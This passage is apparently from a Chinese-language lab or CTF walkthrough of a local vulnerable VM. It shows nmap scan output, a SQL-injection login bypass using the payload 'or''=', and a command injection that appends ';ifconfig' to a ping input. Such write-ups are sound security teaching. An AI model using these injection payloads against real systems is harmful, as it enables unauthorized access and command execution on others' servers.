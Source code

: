 ```
MAC Address: 00:0C:29:53:19:56 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.011 days (since Sat Oct  6 16:43:54 2018)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=198 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: mean: -3h09m39s, deviation: 0s, median: -3h09m39s

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms 192.168.142.131
```

![file](http://ozpdcy1zs.bkt.clouddn.com/1113c2b04aef437f89737270d6bcde29.png-quanzi)  

## SQL注入 ##  

打开链接http://192.168.142.131/，进入网站  

![file](http://ozpdcy1zs.bkt.clouddn.com/fedfacd3f2043ce5a72cc19ec655f9fb.png-quanzi)  

输入 admin admin 使用抓包软件抓包查看  

![file](http://ozpdcy1zs.bkt.clouddn.com/71ab00871ccb2674f18918255178c1f2.png-quanzi)  

经测试，登录口存在SQL注入漏洞，万能密码登录  

```
'or''=' 'or''='
```

![file](http://ozpdcy1zs.bkt.clouddn.com/a3952056551c9149b4926a90ee49e3d5.png-quanzi)  

![file](http://ozpdcy1zs.bkt.clouddn.com/4d1e6e1826cb6f3a6b9ed307ef2d49aa.png-quanzi)  

## 命令注入 ##  

系统登录成功进入链接http://192.168.142.131/index.php  

![file](http://ozpdcy1zs.bkt.clouddn.com/a30a3f6ff1df0823565ff671cb48f17c.png-quanzi)  

这里本意是一个ping语句，但是存在命令注入。  

简单语句测试：`127.0.0.1;ifconfig`  

![file](http://ozpdcy1zs.bkt.clouddn.com/894886d41536166688d8a7e911f2c008.png-quanzi)  

